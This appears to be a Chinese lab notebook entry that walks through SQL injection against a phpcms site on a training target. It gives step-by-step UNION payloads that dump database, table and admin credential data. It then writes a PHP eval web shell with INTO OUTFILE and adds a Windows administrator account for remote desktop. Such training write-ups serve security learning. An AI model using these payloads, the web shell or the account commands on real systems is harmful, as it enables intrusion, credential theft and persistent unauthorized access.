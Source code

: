 ```yaml
---
description: 记录学习平台上实验过程和注入的思路
---
```


# Web渗透之基于phpcms的sql注入实验

## 记录实验过程

先启动靶机的服务，然后打开攻击机，使用浏览器访问PHP网站http://192.168.1.26:8083,打开了一个文章管理系统。

![&#x6587;&#x7AE0;&#x7BA1;&#x7406;&#x7CFB;&#x7EDF;&#x4E3B;&#x9875;](../.gitbook/assets/image%20%2877%29.png)

当我们访问一个文章时，会出现这样的链接

![&#x5355;&#x4E2A;&#x65B0;&#x95FB;&#x7684;&#x94FE;&#x63A5;](../.gitbook/assets/image%20%28110%29.png)

  
所以测试一下该网站此处是否存在sql注入漏洞

当我们构造这个http://192.168.1.26:8083/show.php?id=33 and 1=2链接访问时，系统返回了空白的页面

![&#x8FD4;&#x56DE;&#x7A7A;&#x767D;&#x9875;&#x9762;](../.gitbook/assets/image%20%2843%29.png)

  
当我们访问http://192.168.1.26:8083/show.php?id=33 and 1=1时，返回了正常的页面

![&#x8FD4;&#x56DE;&#x6B63;&#x5E38;&#x7684;&#x9875;&#x9762;](../.gitbook/assets/image%20%28100%29.png)

  
当我们尝试去http://192.168.1.26:8083/show.php?id=33‘访问时，出现了报错信息

![&#x7A0B;&#x5E8F;&#x62A5;&#x9519;&#x4FE1;&#x606F;](../.gitbook/assets/image%20%28156%29.png)

通过以上3次测试，我们可以得出基本的两个结论：  
1.存在sql注入漏洞  
2.程序采用的数据库为MYSQL

下面就考虑如何让数据库回显信息，既然有报错信息那么报错注入可以使用，我们还可以测试一下返回的字段数，直接回显信息。这里采用group by num 来测试（翻倍递增可以加快测试速度），最终测试出来长度为15

![&#x957F;&#x5EA6;&#x4E3A;16&#x65F6;&#x62A5;&#x9519;](../.gitbook/assets/image%20%2817%29.png)

![&#x957F;&#x5EA6;&#x4E3A;15&#x65F6;&#x6B63;&#x5E38;&#x663E;&#x793A;](../.gitbook/assets/image%20%28153%29.png)

测试一下显示的是第几个字段，http://192.168.1.26:8083/show.php?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15。发现第3个和第11个有回显

![&#x6D4B;&#x8BD5;&#x7ED3;&#x679C;](../.gitbook/assets/image%20%28123%29.png)

**实验手册中的几个payload\(基本思路都是利用sql函数和mysql系统数据库information\_schema\)**  
1.查看 mysql 版本 version\(\)  
2.查看当前数据库 database\(\)  
3.查看当前用户 user\(\)  
4.利用 and 1=2 union select 1,2,group\_concat\(convert\(SCHEMA\_NAME using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15  from  information\_schema.SCHEMATA，查看 mysql中所有数据库的名称。  
5.利用 and 1=2 union select 1,2,group\_concat\(convert\(table\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.tables where table\_schema=database\(\) ，查看 cms 数据库拥有的所有表。可以发现存放用户信息的表cms\_users。  
6.利用 and 1=2 union select 1,2,group_concat\(convert\(column\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.columns where table\_name=0x636D735F7573657273。 table\_name=cms\_users，表名需要编码为 16 进制。得到 3 个列：userid，username 和 password 从ASCII对照表中可知对应：c\(63\) m\(6d\) s\(73\)_ \(5f\) u\(75\) s\(73\) e\(65\) r\(72\) s\(73\)  
7.利用 and 1=2 union select 1,2,concat\_ws\(0x2b,userid,username,password\),4,5,6,7,8,9,10,11,12,13,14,15 from cms.cms\_users。得到管理员账号密码为：admin/e10adc3949ba59abbe56e057f20f883e（解密后123456）  


![&#x83B7;&#x5F97;&#x540E;&#x53F0;&#x7528;&#x6237;&#x540D;&#x5BC6;&#x7801;](../.gitbook/assets/image%20%2859%29.png)

登录后台：

![](../.gitbook/assets/image%20%2854%29.png)

后台页面竟然有报错信息......，暴露了目录，直接写一个木马。http://192.168.1.26:8083/show.php?id=33 union select '&lt;?php eval\($\_POST\[cmd\]\); ?&gt;',1,1,1,1,1,1,1,1,1,1,1,1,1,1 into outfile D:\\WWW\\cms\\ma.php

![](../.gitbook/assets/image%20%28159%29.png)

菜刀链接 

![](../.gitbook/assets/image%20%28115%29.png)

打开虚拟终端尝试添加用户：

net user test test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;](../.gitbook/assets/image%20%2818%29.png)

  
添加用户到管理员组

net localgroup Administrators test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;&#x5230;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2850%29.png)

  
查看管理员组   
net localgroup administrators

![&#x67E5;&#x770B;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%28127%29.png)

尝试远程桌面链接

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;](../.gitbook/assets/image%20%2856%29.png)



